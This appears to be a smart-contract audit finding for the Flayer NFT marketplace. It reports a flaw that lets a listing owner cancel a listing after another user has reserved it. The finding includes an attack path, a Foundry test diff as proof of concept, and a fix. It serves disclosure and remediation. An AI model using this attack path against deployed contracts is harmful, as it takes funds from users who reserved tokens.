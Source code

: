 Wonderful Rouge Hamster

High

# Reserved listing can be cancelled by the owner

### Summary

The listing owner can cancel it after it was reserved by another user causing a loss of funds for the them.

### Root Cause

In [Listings.sol:690](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690) the listing isn't removed from the `_listings` mapping after it was reserved by the user.

That allows the owner of the listing to call [`cancelListings()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L414) to get back their token.

It's not possible for another user to fill the listing because [`getListingPrice()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L826) will return `false` now that there is a protected listing for that tokenId: 

### Internal pre-conditions

none

### External pre-conditions

none

### Attack Path

1. Attacker lists their NFT with a floor multiple > 1
2. Bob reserves the attacker's NFT
3. Attacker cancels their listing 

The attacker now owns the excess collection tokens because the price was higher than the floor and the NFT itself. 

### Impact

Loss of funds for the user who reserved the token.

### PoC

```diff
diff --git a/flayer/test/Listings.t.sol b/flayer/test/Listings.t.sol
index a68d91e..184a9c8 100644
--- a/flayer/test/Listings.t.sol
+++ b/flayer/test/Listings.t.sol
@@ -3016,6 +3016,68 @@ contract ListingsTest is Deployers, FlayerTest {
         listings.setProtectedListings(_protectedListings);
     }
 
+    function test_can_cancel_after_reserve() public {
+        uint _tokenId = 15;
+        address _lister = vm.addr(15);
+        address _relister = vm.addr(16);
+        address _buyer = vm.addr(17);
+        // Provide a token into the core Locker to create a Floor item
+        erc721a.mint(_lister, _tokenId);
+
+        vm.startPrank(_lister);
+        erc721a.approve(address(listings), _tokenId);
+
+        uint[] memory tokenIds = new uint[](1);
+        tokenIds[0] = _tokenId;
+
+        IListings.CreateListing[] memory _listings = new IListings.CreateListing[](1);
+        _listings[0] = IListings.CreateListing({
+            collection: address(erc721a),
+            tokenIds: tokenIds,
+            listing: IListings.Listing({
+                owner: payable(_lister),
+                created: uint40(block.timestamp),
+                duration: VALID_LIQUID_DURATION,
+                floorMultiple: 120
+            })
+        });
+
+        // Create our listings
+        listings.createListings(_listings);
+        vm.stopPrank();
+
+        vm.startPrank(_relister);
+        // Provide our filler with sufficient, approved ERC20 tokens to make the relist
+        uint startBalance = 0.5 ether;
+        ICollectionToken token = locker.collectionToken(address(erc721a));
+        deal(address(token), _relister, startBalance);
+        token.approve(address(listings), startBalance);
+
+        // Relist our floor item into one of various collections
+        listings.reserve({
+            _collection: address(erc721a),
+            _tokenId: _tokenId,
+            _collateral: 0.3 ether
+        });
+
+        vm.stopPrank();
+
+        // Confirm that the listing has been created with the expected details
+        IProtectedListings.ProtectedListing memory _listing = protectedListings.listings(address(erc721a), _tokenId);
+
+        assertEq(_listing.owner, _relister);
+
+        Listings.Listing memory listing = listings.listings(address(erc721a), _tokenId);
+        assertEq(listing.owner, _lister);
+
+        vm.startPrank(_lister);
+        token.approve(address(listings), type(uint).max);
+        // deal(address(token), _lister, 0.5e18);
+        listings.cancelListings(address(erc721a), tokenIds, false);
+
+        assertEq(_lister, erc721a.ownerOf(_tokenId));
+    }
+
     function test_CanRelistFloorItemAsProtectedListing(address _lister, address payable _relister, uint _tokenId) public {
         // Set up protected listings
         listings.setProtectedListings(address(protectedListings));
```


### Mitigation

remove the listing from the `_listings` mapping after it was reserved.